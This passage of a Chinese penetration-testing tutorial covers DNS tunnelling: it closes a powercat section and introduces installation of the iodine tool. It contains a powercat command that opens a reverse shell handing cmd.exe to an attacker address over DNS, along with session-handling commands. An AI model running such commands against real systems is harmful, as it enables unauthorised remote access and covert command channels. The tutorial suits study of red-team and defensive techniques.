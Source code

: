 在靶机下，执行以下命令，建立 dns 隧道







```none
powercat -c 172.16.214.47 -p 53 -dns powercat -e cmd.exe
```

此时，在 kali 上就能看到回连的会话了







```none
sessions				#	查看所有会话
session -i 1 		#	选择指定的会话进行交互
```

不过实测，虽然能返回会话，但不能执行命令，暂不清楚原因是什么。

powercat 暂时就记录这些，其他的比如文件传输什么的就不记了，毕竟使用频率几乎为零，平时使用最多的可能还是拿它来反弹 shell，不过为什么不用 CS 或者 MSF 呢，不更香嘛。

# 0x09 iodine 使用

## 1、介绍

iodine 这个名字起的很有意思，iodine 翻译过来就是碘，碘的原子序数为 53，53 也就是 DNS 服务对应的端口号。

iodine 和 dnscat2 一样，适合于其他请求方式被限制以至于只能发送 DNS 请求的环境中，iodine 同样也是分成了直接转发和中继两种模式。

iodine 与 dnscat2 不同的在于 Iodine 服务端和客户端都是用 C 语言开发，同时 iodine 的原理也有些不同，iodine 通过 TAP 在服务端和客户端分别建立一个局域网和虚拟网卡，再通过 DNS 隧道进行连接，然后使其处在同一个局域网中。

## 2、安装

首先需要有一个域名，并设置 NS 和 A 记录，A 记录指向自己的公网 VPS 地址，NS 记录指向 A 记录的子域名。



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-07_17-20-20.png)



Kali 下自带 iodine ，Debian Linux 可以使用 apt 进行安装







```none
sudo apt-get install iodine
```

Windows 可以直接到官网下载，下载地址：https://code.kryo.se/iodine/，服务端名称是 iodined.exe，客户端是 iodine.exe

## 3、使用
